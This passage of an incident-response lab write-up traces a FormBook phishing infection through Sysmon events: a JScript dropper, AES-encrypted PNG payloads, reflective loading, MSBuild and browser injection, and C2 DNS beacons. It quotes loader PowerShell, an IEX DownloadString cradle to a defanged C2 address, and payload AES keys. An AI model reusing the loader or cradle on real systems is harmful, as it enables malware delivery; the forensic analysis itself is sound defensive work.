= substring(86, 1548288)
= <entire binary code sliced>

$Allohaarnppp1111111111111=$decryptedcode.Replace('#','A').ToCharArray();
= <entire binary code sliced, replacing # with A>

[Array]::Reverse($Allohaarnppp1111111111111);
= <entire binary code sliced, replacing # with A, reversed>

$Allohaarnppp111111111111=$Allohaarnppp1111111111111 -join '';

[byte[]]$Allohaarnppp11111111111=[Convert]::FromBase64String($Allohaarnppp111111111111);

$Allohaarnppp1111111111=[AppDomain]::CurrentDomain.Load($Allohaarnppp11111111111);

$Allohaarnppp11111111=@('file:///C:/Users/Public/Brio.png','0','','','MSBuild','','MSBuild','','','','','','7','0','','0','','','');

try{

$Allohaarnppp111111111=$Allohaarnppp1111111111.GetType('Fiber.Program');
$Allohaarnppp1111111=$Allohaarnppp111111111.GetMethod('Main');
...<SNIP>...

# Important last step to ensure the payload is written as raw bytes and not as text
PS C:\Users\Administrator> [IO.File]::WriteAllBytes("C:\Users\Administrator\extracted_payload.bin", $Allohaarnppp11111111111)
```

**Q22**- The Fiber loader executed through a trusted, signed Microsoft developer utility rather than running malware directly. What is the name and version of this LOLBin?

Answer: `MSBuild.exe v4.8.9037.0`

Reason: Sysmon Event ID 1 (Process Create) correlated the `Fiber.Program.Main` invocation from the decoded PowerShell with the launch of `MSBuild.exe` at `14:28:57.404` UTC. The process (`PID 10548`, file path `C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe`, file version `4.8.9037.0`) was spawned directly from the same `powershell.exe` process (`PID 8972`) that executed the entire deobfuscation and reflective-loading chain. `MSBuild` is a legitimate, Microsoft-signed build utility present on nearly every Windows development and enterprise machine. It functions as a living-off-the-land binary (LOLBIN) precisely because it accepts crafted XML project files as arguments and executes arbitrary C-sharp code embedded within inline task definitions, allowing the loader to execute final-stage payload logic under a trusted, signed process rather than an obviously suspicious unsigned binary. The repeated presence of the string "`MSBuild`" in the `Fiber.Program.Main` argument array directly corresponds to this injection vector: the Fiber assembly was engineered specifically to instantiate and exploit `MSBuild` as its execution container. This technique significantly reduces behavioral detection surface because `MSBuild.exe` is expected to spawn child processes and load assemblies as part of normal build operations, allowing malicious activity to blend seamlessly into legitimate development workflows.


# Defense Evasion

**Q23**- Confirm the injection into the developer utility at the kernel-telemetry level. What are the source PID and target PID involved? (Format: `sourcePID` : `targetPID`)

Answer: `8972` : `10548`

Reason: Sysmon Event ID 10 (`ProcessAccess`) captured the injection attempt at `14:28:57.410` UTC, just 6 milliseconds after `MSBuild.exe` spawned. The source process `powershell.exe` (`PID 8972`, the same process that executed the entire deobfuscation and reflective-loading chain) opened a handle into the target process `MSBuild.exe` (`PID 10548`) with `GrantedAccess: 0x1FFFFF`, specifying `PROCESS_ALL_ACCESS`, the broadest possible access rights. This access level is typical of injection primitives such as `WriteProcessMemory` and `CreateRemoteThread`, which require full process manipulation capabilities. The call stack provided the definitive forensic indicator: the frames walked cleanly through expected system libraries (`ntdll.dll`, `KERNELBASE.dll`, `KERNEL32.DLL`), but the final return address `00007FF89BA641AE` resolved to `UNKNOWN`, meaning that address does not map to any loaded module resident on disk. An unknown call stack terminator is a forensic signature of code executing from unbacked or anonymous memory, indicating manually allocated shellcode or a reflectively mapped payload rather than a conventional Dynamic Link Library (DLL).

**Q24**- After this injection, there is a chain of further injections. What is the name and PID of the final process that issues the decoy DNS queries? 

Answer: `chrome`, `2864`

Reason: Following successful injection into `MSBuild.exe` (`PID 10548`), Sysmon `ProcessAccess` telemetry revealed a cascading chain of process injections that routed malicious execution through multiple intermediary hosts. At `14:29:01.854` UTC, `MSBuild.exe` opened a handle into `msedge.exe` (`PID 6476`). At `14:29:01.992` UTC, a secondary injector process, `sdchange.exe` (`PID 1592`, running from `C:\Windows\SysWOW64\`), executed DLL injection into `msedge.exe`, with the call stack again terminating in an `UNKNOWN` unbacked memory address, consistent with reflectively-loaded shellcode. Finally, at `14:29:17.783` UTC, `sdchange.exe` injected into `chrome.exe` (`PID 2864`), which became the terminal process in the chain. This final process was responsible for issuing all observed decoy DNS queries. The multi-hop injection pattern distributed malicious activity across multiple legitimate, signed processes: a build utility, a browser engine, and a browser executable.

```powershell
# Chain 1
technique_id=T1055,technique_name=Process Injection
2026-04-29 14:29:01.854
{c73af8d8-15a9-69f2-0317-000000005400}
10548
13684
C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe
{c73af8d8-0ca7-69f2-0c15-000000005400}
6476
C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
0x1438

# Chain 2
technique_id=T1055.001,technique_name=Dynamic-link Library Injection
2026-04-29 14:29:01.992
{c73af8d8-0ca7-69f2-0c15-000000005400}
6476
12284
C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
{c73af8d8-15ad-69f2-0b17-000000005400}
1592
C:\Windows\SysWOW64\sdchange.exe
0x1fffff
C:\Windows\SYSTEM32\ntdll.dll+9ee04|C:\Windows\System32\KERNELBASE.dll+4b2d5|C:\Windows\System32\KERNEL32.DLL+3c21c|UNKNOWN(000000000116F1D6)

# Chain 3
technique_id=T1055,technique_name=Process Injection
2026-04-29 14:29:17.783
{c73af8d8-15ad-69f2-0b17-000000005400}
1592
5668
C:\Windows\SysWOW64\sdchange.exe
{c73af8d8-0ca4-69f2-0915-000000005400}
2864
C:\Program Files\Google\Chrome\Application\chrome.exe
0x1438
```


# Command and Control

**Q25**- Separately from the PNG loader chain, the dropper kicked off a second-stage download cradle. What is the full URL the hidden PowerShell command reached out to via the DownloadString call? 

Answer: `hxxp://34.236.155.32:80/a`

Reason: The dropper's `runApprovedCommand()` function, hardcoded at the end of `cbmjlzan.JS`, executed on disk via a Sysmon T1202 (Indirect Command Execution) event at `14:28:10.359` UTC. `wscript.exe` (`PID 4480`, ProcessGuid `{c73af8d8-155c-69f2-ee16-000000005400}`) spawned `powershell.exe` (`PID 4252`) from the extraction directory with arguments designed to suppress defensive visibility: `-NoProfile` disabled profile loading, `-WindowStyle Hidden` hid the console window, and `-ExecutionPolicy Bypass` circumvented script execution restrictions. The `-Command` argument invoked `IEX` (Invoke-Expression) against a `Net.WebClient.DownloadString()` call, implementing a classic fetch-and-execute cradle. This second-stage downloader reached out to `hxxp://34.236.155.32:80/a` over plain, unencrypted HTTP on a non-standard port, mirroring the same high-port, unencrypted staging pattern observed with the first-stage RAR delivery server. Critically, this entire cradle chain ran independently and in parallel with the AES-encrypted PNG loader chain dropped moments later by the same `wscript.exe` process, meaning the attacker deployed two distinct payload delivery paths simultaneously within a single execution.


**Q26**- Validate that the cradle is actually connected. What is the victim's source IP address as recorded in that event? 

Answer: `10.10.11.138`

Reason: Sysmon Event ID 3 (Network Connection) corroborated the `DownloadString` execution by pivoting on the shared ProcessGuid `{c73af8d8-157a-69f2-fa16-000000005400}` from the `powershell.exe` (`PID 4252`) process. At `14:28:13.506` UTC, this process established a TCP connection from source `10.10.11.138:62831` to destination `34.236.155.32:80`, validating that the plaintext `DownloadString` request to `hxxp://34.236.155.32:80/a` actually reached the internet rather than representing a benign-but-unexecuted string artifact in command-line telemetry. The network connection event also established `10.10.11.138` as `SG-WKS4`'s network-facing IP address, providing a fixed victim-host identifier for cross-referencing against external evidence sources such as network packet captures, firewall logs, or DNS query data.


# FormBook Payload

**Q27**- Pin down the start of the FormBook beaconing. What is the first FormBook decoy domain queried, and the IP it resolved to?

Answer: `www.0a8b2y.asia`, `156.244.73.169`

Reason: Sysmon Event ID 22 (`DnsQuery`) confirmed command and control (C2) beaconing by pivoting on `chrome.exe`'s ProcessGuid `{c73af8d8-0ca4-69f2-0915-000000005400}` (`PID 2864`), the terminal process in the multi-hop injection chain. The first DNS query fired at `14:29:22.654` UTC, approximately five seconds after the `sdchange.exe` injection into `chrome.exe` completed, resolving `www[.]0a8b2y[.]asia` to `156.244.73.169`. The randomized, six-character alphanumeric second-level domain registered under a generic, low-cost `.asia` top-level domain (TLD) is a textbook `FormBook` stealer decoy pattern.


**Q28**- What is the SHA256 hash of O***.png as computed on the recovered file? (Format: SHA256)

Answer: `85F32EB745BB3E290D7A4721FBEF005574D02DEDC2C25D0B958A379C5CF9DEC8`

Reason: `Get-FileHash` against the recovered `Orio.png` file (the AES-encrypted blob decrypted in question 19 to yield the reflective-loader payload) on the triage image returned SHA-256 hash `85F32EB745BB3E290D7A4721FBEF005574D02DEDC2C25D0B958A379C5CF9DEC8`. This fixed, content-derived identity anchor provides a deterministic fingerprint for that specific staged file, enabling correlation across multiple triage artifacts or forensic timelines. The approach mirrors the same hashing methodology applied to the first-stage RAR archive in question 4, establishing a consistent artifact-tracking discipline throughout the investigation. The hash serves as a reliable indicator of compromise (IOC) for detecting copies of this payload staged on other systems or identified in threat intelligence feeds.

```powershell
PS C:\Users\Administrator\Desktop\Start Here\Artifacts\SG-WKS4\C\Users\Public> Get-FileHash .\Orio.png

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
SHA256          85F32EB745BB3E290D7A4721FBEF005574D02DEDC2C25D0B958A379C5CF9DEC8       C:\Users\Administrator\Desktop\Start Here\Artifacts\SG-WKS4\C\Users\Public\Orio.png
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| 2026-04-29 14:25:58.550 | Initial Access | `olk.exe` (New Outlook) forwards a phishing "quotation request" link to the default browser, spawning `msedge.exe` (`PID 560`) | T1566.001 |
| 2026-04-29 14:25:58 | Initial Access | `msedge.exe` downloads `08042026_0806_07042026_Quotation Request.rar` over plain HTTP from staging server `3[.]121[.]186[.]89:8000` in ~16s | T1583.001 |
| 2026-04-29 14:27:07.955 | Execution | User double-clicks the archive; `explorer.exe` spawns `7zG.exe` (7-Zip 26.00, `PID 7732`) to extract it | T1204.002 |
| 2026-04-29 14:27:10.123 | Execution | `7zG.exe` writes dropper `cbmjlzan.JS` to `Downloads\08042026_0806_07042026_Quotation Request\` | T1036.008 |
| 2026-04-29 14:27:40.072 | Execution | User double-clicks `cbmjlzan.JS` → `OpenWith.exe` → `wscript.exe` (`PID 4480`) executes the dropper | T1202 |
| 2026-04-29 14:27:40.771 | Persistence | Dropper copies itself to `C:\Users\Public\Libraries\cbmjlzan.JS` | T1074.001 |
| 2026-04-29 14:27:45.597 | Persistence | `wscript.exe` → `cmd.exe` → `schtasks.exe` registers task `cbmjlzan.JS`, every 15 min, targeting the persistence copy | T1053.005 |
| 2026-04-29 14:27:56.793–14:28:00.651 | Defense Evasion | Three AES-CBC/PKCS7-encrypted payloads dropped to world-writable `C:\Users\Public\`: `Orio.png`, `Brio.png`, `Xrio.png` | T1027, T1074.001 |
| 2026-04-29 14:28:00.902 | Execution | `wscript.exe` launches inline, jsjiami-obfuscated `powershell.exe` (`PID 8972`) — self-contained reflective-loader chain, hidden inside CJK-padded line 151 of the dropper | T1059.001, T1027.001 |
| 2026-04-29 14:28:00.902+ | Defense Evasion | Loader decrypts `Xrio.png` (AES-CBC/PKCS7) and patches `AmsiScanBuffer` and `EtwEventWrite` in memory to blind AMSI/ETW | T1562.001, T1562.008 |
| — | Defense Evasion | Loader decrypts `Orio.png` (separate AES-CBC/PKCS7 key/IV) → recovers embedded PE via `IN-`/`-in1` delimiter extraction, `#`→`A` substitution, and array reversal | T1140, T1027 |
| — | Execution | Assembly reflectively loaded via `[AppDomain]::CurrentDomain.Load()`; `Fiber.Program.Main` invoked with `file:///C:/Users/Public/Brio.png` and `MSBuild` as target | T1620 |
| 2026-04-29 14:28:57.404 | Execution | Fiber loader spawns `MSBuild.exe` (`PID 10548`, `v4.8.9037.0`) as injection host (LOLBIN) | T1127.001 |
| 2026-04-29 14:28:57.410 | Privilege Escalation / Defense Evasion | `powershell.exe` (`PID 8972`) opens `PROCESS_ALL_ACCESS` handle into `MSBuild.exe` (`PID 10548`); call stack terminates in unbacked `UNKNOWN` memory | T1055 |
| 2026-04-29 14:28:10.359 | Command and Control | (Parallel branch) `wscript.exe` spawns second `powershell.exe` (`PID 4252`) running plaintext `runApprovedCommand()` cradle: `IEX` (New-Object `Net.WebClient`).`DownloadString('hxxp://34[.]236[.]155[.]32:80/a')` | T1059.001 |
| 2026-04-29 14:28:13.506 | Command and Control | `powershell.exe` (`PID 4252`) connects `10.10.11.138:62831` → `34[.]236[.]155[.]32:80`, confirming the cradle reached its C2 | T1071.001 |
| 2026-04-29 14:29:01.854 | Privilege Escalation / Defense Evasion | `MSBuild.exe` (`PID 10548`) injects into `msedge.exe` (`PID 6476`) | T1055 |
| 2026-04-29 14:29:01.992 | Privilege Escalation / Defense Evasion | `msedge.exe` (`PID 6476`) DLL-injects into `sdchange.exe` (`PID 1592`, `SysWOW64`); call stack again terminates in `UNKNOWN` unbacked memory | T1055.001 |
| 2026-04-29 14:29:17.783 | Privilege Escalation / Defense Evasion | `sdchange.exe` (`PID 1592`) injects into `chrome.exe` (`PID 2864`), the terminal process in the chain | T1055 |
| 2026-04-29 14:29:22.654 | Command and Control | `chrome.exe` (`PID 2864`) issues first FormBook decoy DNS query: `www[.]0a8b2y[.]asia` → `156.244.73.169` | T1071.004 |

## Text Tree

```bash
[Phishing email: "quotation request" lure]  ← attacker → AD\byoussef (SG-WKS4)
    └── olk.exe (New Outlook) forwards link to default browser
        └── msedge.exe (PID 560) starts, 2026-04-29 14:25:58.550 UTC
            └── downloads 08042026_0806_07042026_Quotation Request.rar
                └── hxxp://3[.]121[.]186[.]89:8000  ← plaintext, non-standard port
                    │
                    ├── [Stage 1 — Execution]
                    │   └── explorer.exe → 7zG.exe (7-Zip 26.00) extracts archive
                    │       └── writes cbmjlzan.JS to Downloads\...\
                    │           └── OpenWith.exe → wscript.exe (PID 4480) runs dropper
                    │
                    ├── [Stage 2 — Persistence]
                    │   └── wscript.exe (4480) copies self
                    │       └── C:\Users\Public\Libraries\cbmjlzan.JS
                    │           └── cmd.exe → schtasks.exe
                    │               └── task "cbmjlzan.JS", every 15 min  ← survives reboot
                    │
                    ├── [Stage 3 — Staging]
                    │   └── wscript.exe (4480) drops 3 AES-CBC/PKCS7 payloads
                    │       ├── Orio.png    ← reflective-loader PE (encrypted)
                    │       ├── Brio.png    ← passed as file:/// arg to Fiber.Program.Main
                    │       └── Xrio.png    ← decrypted first, drives AMSI/ETW patch
                    │
                    ├── [Stage 4 — Reflective Load Chain]
                    │   └── wscript.exe (4480) runs obfuscated inline Base64 (line 151, jsjiami)
                    │       └── powershell.exe (PID 8972), 14:28:00.902 UTC
                    │           ├── decrypts Xrio.png
                    │           │   └── patches AmsiScanBuffer + EtwEventWrite  ← blinds AV/EDR
                    │           ├── decrypts Orio.png
                    │           │   └── extracts PE (IN-/-in1 delims, #→A, array reverse)
                    │           └── [AppDomain]::CurrentDomain.Load() → Fiber.Program.Main
                    │               └── target: file:///C:/Users/Public/Brio.png, host: MSBuild
                    │                   └── MSBuild.exe (PID 10548) spawned, 14:28:57.404 UTC  ← LOLBIN
                    │                       └── powershell.exe (8972) injects PROCESS_ALL_ACCESS
                    │                           └── MSBuild.exe (10548)
                    │                               └── msedge.exe (6476), 14:29:01.854 UTC
                    │                                   └── sdchange.exe (1592, SysWOW64), 14:29:01.992  ← DLL injection
                    │                                       └── chrome.exe (2864), 14:29:17.783 UTC  ← terminal hop
                    │                                           └── DNS: www.0a8b2y[.]asia → 156.244.73.169
                    │                                               (14:29:22.654 UTC)  ← FormBook decoy beacon start
                    │
                    └── [Stage 5 — Parallel C2 Cradle]
                        └── wscript.exe (4480) runs runApprovedCommand() (plaintext JScript)
                            └── powershell.exe (PID 4252), 14:28:10.359 UTC
                                └── IEX (DownloadString hxxp://34[.]236[.]155[.]32:80/a)
                                    └── TCP 10.10.11.138:62831 → 34[.]236[.]155[.]32:80
                                        (confirmed connected, 14:28:13.506 UTC)
```

# Artifacts

| Type | Value |
| --- | --- |
| Staging server (first-stage RAR) | `hxxp://3[.]121[.]186[.]89:8000` |
| Second-stage PowerShell cradle C2 | `hxxp://34[.]236[.]155[.]32:80/a` |
| Victim host source IP | `10.10.11.138` |
| First FormBook decoy domain | `www[.]0a8b2y[.]asia` |
| Decoy domain resolved IP | `156.244.73.169` |

| Type | Value |
| --- | --- |
| Affected host | `SG-WKS4` |
| Affected user | `AD\byoussef` |
| First-stage archive | `08042026_0806_07042026_Quotation Request.rar` |
| First-stage archive size | `5180553 bytes` |
| First-stage archive SHA256 | `E6CB4D92D873AD02564CE38E283180446E557462A713F2885DBC99A979FA9F81` |
| Dropper script | `cbmjlzan.JS` |
| Dropper persistence copy | `C:\Users\Public\Libraries\cbmjlzan.JS` |
| Scheduled task name | `cbmjlzan.JS` |
| Scheduled task cadence | `every 15 minutes` |
| TaskCache GUID | `{55AED6D3-C198-4BAE-872F-BC1BD3E01655}` |
| Encrypted staged payload 1 | `C:\Users\Public\Orio.png` |
| Encrypted staged payload 2 | `C:\Users\Public\Brio.png` |
| Encrypted staged payload 3 | `C:\Users\Public\Xrio.png` |
| Orio.png SHA256 | `85F32EB745BB3E290D7A4721FBEF005574D02DEDC2C25D0B958A379C5CF9DEC8` |
| Injection host (LOLBIN) | `MSBuild.exe v4.8.9037.0` |
| Reflectively loaded assembly | `Fiber.Program.Main` |

| Type | Value |
| --- | --- |
| Reflective-loader PowerShell | `powershell.exe PID 8972` |
| Second-cradle PowerShell | `powershell.exe PID 4252` |
| Injection hop 1 | `powershell.exe (8972)` → `MSBuild.exe (10548)` |
| Injection hop 2 | `MSBuild.exe (10548)` → `msedge.exe (6476)` |
| Injection hop 3 | `msedge.exe (6476)` → `sdchange.exe (1592, SysWOW64)` |
| Injection hop 4 (terminal) | `sdchange.exe (1592)` → `chrome.exe (2864)` |

| Parameter | Value |
| --- | --- |
| Algorithm / Mode / Padding | `AES-256`, `CBC`, `PKCS7` |
| Xrio.png Key | `XctflJI8B7Qo2dA6FbwuHYAjjzjViSx3hThThXX1QUY=` |
| Xrio.png IV | `eb8a/RvZf2ltVDo2satMKg==` |
| Orio.png Key | `KH4LLSO4gsNStF/NR15Oxu6oiybDl9SDt5Sa4uoeQIQ=` |
| Orio.png IV | `SW4pGkqRJsjbGuetmmqTjA==` |
| Reflective payload delimiters | `IN-` (start), `-in1` (end) |
| Reflective payload substitution | `#` → `A` |

| Type | Value |
| --- | --- |
| Dead-code padding delimiter (dropper) | `VFHDVXDJCFTU` / `VFHDVXDJCFTUTW` |
| Base64 corruption junk token (PowerShell) | `VFHDVXDJCF` |
| Real trigger location | `line 151` of `cbmjlzan.JS` (CJK padding interleaved with jsjiami-obfuscated launcher) |
| Patched functions (AMSI/ETW bypass) | `AmsiScanBuffer`, `EtwEventWrite` |

# Lab Insights

- Dead code and live code can share the same line, not just the same file. The instinct from every prior obfuscation-heavy lab was "strip the padding, keep the payload" — treat decoy content as a separable, removable layer. This lab broke that assumption: line 151 of the dropper physically interleaved CJK filler appends with a live, jsjiami-obfuscated launcher statement, with no delimiter between them beyond character position. A naive strip-and-diff workflow that worked cleanly on the other 301 "identical" lines would have silently deleted the actual trigger if applied uniformly. The lesson is that "this looks like the same padding we already classified as dead" is a hypothesis to re-verify per-instance, not a pattern to apply in bulk once confirmed once.
- Redundant execution paths are a resilience strategy, not a mistake. The dropper didn't commit to a single delivery mechanism — it launched two independent PowerShell children from the same parent almost simultaneously: a self-contained, disk-free reflective loader (AES-decrypt → AMSI/ETW patch → inject) and a plaintext DownloadString cradle to a separate C2. Neither depends on the other succeeding. This mirrors a broader pattern worth watching for across labs: sophisticated toolkits build in parallel, disposable channels so that catching or blocking one artifact (a decrypted PNG, a scheduled task, a single IOC) doesn't fully sever the intrusion.
- Legitimate cryptographic and platform primitives were used exactly as documented, everywhere. AES-CBC/PKCS7 via System.Security.Cryptography.Aes, reflective assembly loading via [AppDomain]::CurrentDomain.Load(), and process injection via standard Win32 VirtualProtect/WriteProcessMemory-class primitives all showed up unmodified from their textbook usage. The sophistication in this intrusion lives entirely in the packaging, sequencing, and camouflage layer (padding, junk tokens, extension masquerading, LOLBIN chaining) — not in novel cryptography or custom loader engineering. That's a useful signal for triage speed: once you recognize the crypto/loading primitives as standard, the analysis effort should go into the delivery/obfuscation scaffolding, not into reverse-engineering the cipher.
- A four-hop injection chain through exclusively signed, trusted processes is designed to defeat single-process behavioral baselining. MSBuild.exe → msedge.exe → sdchange.exe → chrome.exe strings together processes that each individually look unremarkable (a build tool, a browser, a browser again) with only the middle SysWOW64 binary standing out on inspection. Detection here depended entirely on chaining ProcessGuid/PID lineage across every hop plus recognizing the recurring UNKNOWN unbacked-memory call-stack signature at each injection point — no single hop's telemetry was suspicious in isolation.